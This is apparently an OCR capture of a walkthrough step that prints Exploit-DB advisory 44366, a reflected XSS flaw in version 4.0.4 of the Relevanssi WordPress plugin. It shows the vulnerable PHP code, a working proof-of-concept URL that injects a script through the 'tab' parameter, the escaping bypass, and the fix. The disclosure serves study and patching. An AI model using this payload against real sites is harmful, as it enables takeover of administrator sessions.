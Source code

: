 `cp /usr/share/exploitdb/exploits/php/webapps/44366.txt ./`

`cat ./44366.txt`:
```
# Exploit Title : Relevanssi Wordpress Search Plugin Reflected Cross Site Scripting (XSS)📌
# Date: 23-03-2018
# Exploit Author : Stefan Broeder
# Contact : https://twitter.com/stefanbroeder
# Vendor Homepage: https://www.relevanssi.com
# Software Link: https://wordpress.org/plugins/relevanssi
# Version: 4.0.4📌
# CVE : CVE-2018-9034
# Category : webapps

Description
===========
Relevanssi is a WordPress plugin with more than 100.000 active installations. Version 4.0.4 (and possibly previous versions) are affected by a Reflected XSS vulnerability.

Vulnerable part of code
=======================
File: relevanssi/lib/interface.php:1055 displays unescaped value of $_GET variable 'tab'.📌

..
1049 if( isset( $_REQUEST[ 'tab' ] ) ) {
1050 $active_tab = $_REQUEST[ 'tab' ];📌
1051 } // end if
1052
1053 if ($active_tab === "stopwords") $display_save_button = false;
1054
1055 echo "<input type='hidden' name='tab' value='$active_tab' />";📌
..

Impact
======
Arbitrary JavaScript code can be run on browser side if a logged in WordPress administrator is tricked to click on a link or browse a URL under the attacker control.📌
This can potentially lead to creation of new admin users, or remote code execution on the server.

Proof of Concept
============
In order to exploit this vulnerability, the attacker needs to have the victim visit the following link:

/wp-admin/options-general.php?page=relevanssi%2Frelevanssi.php&tab='><SCRIPT>var+x+%3D+String(%2FTEST%2F)%3Bx+%3D+x.substring(1%2C+x.length-1)%3Balert(x)<%2FSCRIPT><BR+📌

Please note that quotes and double quotes are properly escaped by WordPress, however javascript escaping (\) is applied while the value is in an HTML attribute. There, escaping a quote by \' has no effect (&quot should be used). This allows us to break out of the HTML attribute and start the script tag. Within the script, quotes are properly escaped but there are ways to obfuscate javascript without requiring these symbols as can be seen in above payload.


Solution
========

Update to version 4.1
```
